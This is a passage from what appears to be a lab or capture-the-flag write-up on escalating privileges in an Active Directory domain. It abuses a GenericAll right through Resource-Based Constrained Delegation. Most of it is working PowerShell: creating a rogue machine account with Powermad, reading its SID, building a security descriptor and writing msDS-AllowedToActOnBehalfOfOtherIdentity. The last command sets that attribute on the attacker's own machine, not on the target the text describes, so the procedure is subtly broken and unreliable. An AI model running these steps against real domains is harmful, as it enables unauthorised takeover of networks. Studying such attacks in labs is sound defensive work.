 This means that the group and by extension the `support` user  has full control over this AD computer object, allowing actions such as modifying its attributes, setting a new machine password, or even performing a Resource-Based Constrained Delegation (RBCD) attack...

---

### Windows abuse 

Before doing the **Windows Absue** we need to upload the following files into the target machine : 

![Capture d'écran 2025-05-01 200819](https://github.com/user-attachments/assets/f566b74c-8e21-41e7-bd68-e34a8bf23e95)

Once the required tools are in place, we proceed with the first step of the abuse: creating a new machine account in the domain using the permissions associated with the `GenericAll` right on the domain controller object.

We use the `New-MachineAccount` function from **Powermad** to register a new computer object :

```
New-MachineAccount -MachineAccount ControlledBypwn3d -Password $(ConvertTo-SecureString 'pwn3dthisbox!' -AsPlainText -Force)
```

![Capture d'écran 2025-05-01 203502](https://github.com/user-attachments/assets/2ccd273c-ec9a-46ae-bf1a-7df4099f6c5a)

And we can see that the command completes successfully, confirming the addition of the machine account. After adding our own machine account, we retrieved its SID using PowerView. This SID will be used to configure Resource-Based Constrained Delegation (RBCD), allowing our fake machine to impersonate users on the target system.

We did this **by using the following command** :

```powershell 
$ComputerSid = Get-DomainComputer ControlledBypwn3d  -Properties objectsid | Select -Expand objectsid
```

![Capture d'écran 2025-05-01 205048](https://github.com/user-attachments/assets/ea846fd6-5312-433f-bc0a-b8884de791ec)

Next, we crafted a **custom security descriptor** that grants our fake machine full control over the target computer object. This step is necessary to set up **Resource-Based Constrained Delegation (RBCD)** :

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

After adding the machine account and setting the security descriptor (`$SDBytes`) to the target computer, we configure it to allow delegation using the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This is the critical step for enabling **resource-based constrained delegation**.

```powershell
Get-DomainComputer ControlledBypwn3d | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
